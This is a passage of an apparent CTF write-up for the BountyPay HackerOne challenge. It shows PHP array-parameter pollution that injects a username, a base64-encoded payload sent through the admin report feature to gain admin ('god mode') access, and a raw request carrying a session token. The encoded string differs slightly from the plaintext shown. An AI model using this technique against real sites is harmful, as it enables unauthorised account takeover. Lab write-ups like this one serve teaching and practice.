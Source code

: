 ## Step 2: 
The app is buit on php and you can send multiple values for a single parameter on a single GET request using an array, reference to [stackoverflow](https://stackoverflow.com/questions/24059773/correct-way-to-pass-multiple-values-for-same-parameter-name-in-get-request)  where I learned about it. 
so we can do this to pass the username to the parameter: https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=home&#tab3 

## Step 3: 
Since that feature is admin only we have only way to get it be executed by an admin i.e. send a report to the admin, How does that work?
when you send a request to the admin it gets sent via an XHR request to the following URL:
```
https://staff.bountypay.h1ctf.com/admin/report?url=Lz90ZW1wbGF0ZT1ob21l
```
when we decode the value of the url parameter we get this: 

```
/?template=home
```
and anything to the `/admin` path is ignored for security reasons so we take our neat little payload from the last step, encode it to base64, and it to the admin we can just intercept the request using the report feature and change the value with :

```
/?template[]=login&username=sandra.allison&template[]=home&#tab3 
```
encoded to base64: 
```
Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjM=
```
basically this request: 
```
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjM= HTTP/1.1
Host: staff.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMM0hqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHb1Nxbit2VURkS055dTZ6R09VbjVLY3FNTy9uR0JVRUQwY0NsMXFaMVl1SzE3UT09
```
That upgrades us to the god mode and we have credentials to the account we need: 
{F853122}
